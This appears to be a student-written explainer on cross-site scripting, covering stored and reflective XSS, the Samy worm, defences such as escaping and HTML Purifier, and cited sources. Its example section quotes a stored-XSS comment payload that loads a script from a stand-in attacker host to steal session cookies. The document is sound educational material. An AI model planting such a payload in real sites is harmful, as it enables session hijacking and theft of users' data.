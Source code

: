 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
  to gather information from the users. 

* Most of the danger lies on the users of the sites, as the code targets their information 
  and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

	* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective xss is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
* XSS attacks have been around since the start of the web, first becoming a problem when 
	JavaScript langauage was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed it, and quickly 
  multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - most common protection [xss-attacks]_ 
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any untrusted or un-validated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
  to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  This is a stored in the website, and every time someone visits the page, they have their 
  session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficked site that 
	  also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. XSS Attacks: Cross-site Scripting Exploits and Defense. N.p.: Syngress, 2007. Print. 

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

